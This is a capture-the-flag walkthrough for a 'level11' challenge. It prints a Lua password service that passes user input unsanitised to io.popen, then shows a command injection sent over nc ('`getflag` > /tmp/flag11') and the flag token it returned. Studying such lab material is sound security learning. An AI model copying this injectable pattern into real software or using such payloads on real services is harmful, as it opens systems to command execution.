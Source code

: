 # level11 solve

To begin, when we get logged and trying to see if we got the file we can see we have one file

```
$ ls
> level11.lua
```

It's a <a href="https://fileinfo.com/extension/lua">Lua</a> file, so we decide to check what he contain. 

And multiple line was interesting.

```lua
 1  #!/usr/bin/env lua
 2  local socket = require("socket")
 3  local server = assert(socket.bind("127.0.0.1", 5151))
 4  function hash(pass)
 5    prog = io.popen("echo "..pass.." | sha1sum", "r")
 6    data = prog:read("*all")
 7    prog:close()
 8    data = string.sub(data, 1, 40)
 9    return data
10  end

11  while 1 do
12    local client = server:accept()
13    client:send("Password: ")
14    client:settimeout(60)
15    local l, err = client:receive()
16    if not err then
17        print("trying " .. l)
18        local h = hash(l)
19        if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
20            client:send("Erf nope..\n");
21        else
22            client:send("Gz you dumb*\n")
23        end
24    end
25    client:close()
26  end
```

But two were more intriguing than the others, <a href="https://man7.org/linux/man-pages/man3/popen.3.html">popen</a> and <a href="https://opensharing.fr/commandes-linux-sha1sum">sha1sum</a>

```
$ man popen
> The popen() function opens a process by creating a pipe, forking,
> and invoking the shell.  Since a pipe is by definition
> unidirectional, the type argument may specify only reading or
> writing, not both; the resulting stream is correspondingly read-
> only or write-only.
> 
> The command argument is a pointer to a null-terminated string
> containing a shell command line.  This command is passed to
> /bin/sh using the -c flag; interpretation, if any, is performed
> by the shell.
```

After that we conclude that was popen the thing to work with,
so let's try to connect on the listenner

remember :

```
> 3  local server = assert(socket.bind("127.0.0.1", 5151))
```

```
$ nc localhost 5151
> password : 
```

Maybe we need to inject code for the popen, let's try

```
$ nc localhost 5151
> password : `getflag` > /tmp/flag11
```

Verifying the file

```
$ cat /tmp/flag11
> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

We got it!

> <a href="../flag">flag</a> - <a href="../../level10">previous level</a> - <a href="../../level12">next level</a>
